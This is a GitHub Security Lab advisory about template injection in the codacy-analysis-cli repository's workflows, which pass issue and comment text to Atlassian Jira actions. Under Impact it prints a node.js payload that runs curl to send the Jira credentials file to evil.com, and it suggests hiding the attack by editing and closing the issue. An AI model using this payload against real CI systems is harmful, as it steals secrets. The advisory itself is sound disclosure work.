 <header class="post-header d-block mb-6">
      <div class="date text-mono f5 my-3">December 3, 2020</div>
      <h1 class="my-2 h00-mktg lh-condensed">GHSL-2020-175: Template injection in the GitHub workflows of codacy-analysis-cli repository</h1>

      
      
      
      
      

      

      <a target="_blank" class="sc-frDJqD SgxRc d-inline-flex flex-row flex-items-center text-gray" href="https://github.com/jarlob">
        <img class="mr-3" src="https://avatars.githubusercontent.com/u/26652396?s=35" height="35" width="35">
        <span>Jaroslav Lobacevski</span>
      </a>
    </header>

    <main id="content" class="markdown-body" aria-label="Content">
      <h2 id="summary">Summary</h2>

<p>Automatic GitHub workflows in <a href="https://github.com/codacy/codacy-analysis-cli">codacy-analysis-cli repository</a> are vulnerable to template injection from user comments.</p>

<h2 id="product">Product</h2>

<p><a href="https://github.com/codacy/codacy-analysis-cli">codacy-analysis-cli GitHub repository</a></p>

<h2 id="tested-version">Tested Version</h2>

<p>Master branch.</p>

<h2 id="details">Details</h2>

<h3 id="issue-hidden-expression-expansion-of-input-parameters-passed-to-atlassiangajira-create-or-atlassiangajira-comment">Issue: Hidden expression expansion of input parameters passed to <code class="language-plaintext highlighter-rouge">atlassian/gajira-create</code> or <code class="language-plaintext highlighter-rouge">atlassian/gajira-comment</code></h3>

<p><a href="https://github.com/codacy/codacy-analysis-cli/blob/master/.github/workflows/comment_issue.yml"><code class="language-plaintext highlighter-rouge">Jira Add comment on issue</code> step in comment_issue.yml</a>, <a href="https://github.com/codacy/codacy-analysis-cli/blob/master/.github/workflows/create_issue.yml"><code class="language-plaintext highlighter-rouge">Jira Create issue</code> step in create_issue.yml</a> and <a href="https://github.com/codacy/codacy-analysis-cli/blob/master/.github/workflows/create_issue_on_label.yml"><code class="language-plaintext highlighter-rouge">Jira Create issue</code> step in create_issue_on_label.yml</a> workflows are vulnerable to template injection.</p>

<p><code class="language-plaintext highlighter-rouge">${{ github.event.issue.title }}</code>,<code class="language-plaintext highlighter-rouge">${{ github.event.issue.body }}</code> and <code class="language-plaintext highlighter-rouge">${{ github.event.comment.body }}</code> are used to format input values to <code class="language-plaintext highlighter-rouge">atlassian/gajira-create(comment)</code> actions. For example:</p>

<div class="language-yaml highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="na">on</span><span class="pi">:</span>
  <span class="na">issues</span><span class="pi">:</span>
    <span class="na">types</span><span class="pi">:</span> <span class="pi">[</span> <span class="nv">opened</span> <span class="pi">]</span>
<span class="nn">...</span>
<span class="na">uses</span><span class="pi">:</span> <span class="s">atlassian/gajira-create@v2.0.0</span>
<span class="na">with</span><span class="pi">:</span>
    <span class="na">summary</span><span class="pi">:</span> <span class="s2">"</span><span class="s">[GH#${{</span><span class="nv"> </span><span class="s">github.event.issue.number</span><span class="nv"> </span><span class="s">}}]</span><span class="nv">  </span><span class="s">${{</span><span class="nv"> </span><span class="s">github.event.issue.title</span><span class="nv"> </span><span class="s">}}"</span>
    <span class="na">description</span><span class="pi">:</span> <span class="pi">|</span>
    <span class="s">${{ github.event.issue.body }}</span>
    <span class="s">----</span>
    <span class="s">{panel}</span>
    <span class="s">_[Github permalink |${{ github.event.issue.html_url }}]_</span>
    <span class="s">{panel}</span>
</code></pre></div></div>

<p>However the Atlassian actions have a hidden feature - they expand <code class="language-plaintext highlighter-rouge">{{}}</code> internally. This way when the issue title or body contains an expression in double curly braces it is evaluated by node.js in these actions.</p>

<h4 id="impact">Impact</h4>

<p>This vulnerability allows for arbitrary code execution in the context of GitHub runner. For example a user may create an issue with the title <code class="language-plaintext highlighter-rouge">It doesn't work on my machine</code> and the body</p>

<div class="language-js highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="p">{{</span> <span class="nx">process</span><span class="p">.</span><span class="nx">mainModule</span><span class="p">.</span><span class="nx">require</span><span class="p">(</span><span class="dl">'</span><span class="s1">child_process</span><span class="dl">'</span><span class="p">).</span><span class="nx">exec</span><span class="p">(</span><span class="s2">`curl -d @</span><span class="p">${</span><span class="nx">process</span><span class="p">.</span><span class="nx">env</span><span class="p">.</span><span class="nx">HOME</span><span class="p">}</span><span class="s2">/.jira.d/credentials http://evil.com`</span><span class="p">)</span> <span class="p">}}</span>
</code></pre></div></div>

<p>which will exfiltrate the secret Jira API token to the attacker controlled server. To make the attack less visible an attacker may modify the body of the issue to <code class="language-plaintext highlighter-rouge">Never mind my bad.</code> and close it.</p>

<h2 id="coordinated-disclosure-timeline">Coordinated Disclosure Timeline</h2>

<ul>
  <li>10/14/2020: Report sent to vendor</li>
  <li>10/26/2020: Acknowledged by vendor</li>
  <li>10/29/2020: Issue fixed</li>
</ul>

<h2 id="credit">Credit</h2>

<p>This issue was discovered and reported by GHSL team member <a href="https://github.com/JarLob">@JarLob (Jaroslav Lobačevski)</a>.</p>

<h2 id="contact">Contact</h2>

<p>You can contact the GHSL team at <code class="language-plaintext highlighter-rouge">securitylab@github.com</code>, please include a reference to <code class="language-plaintext highlighter-rouge">GHSL-2020-175</code> in any communication regarding this issue.</p>

   
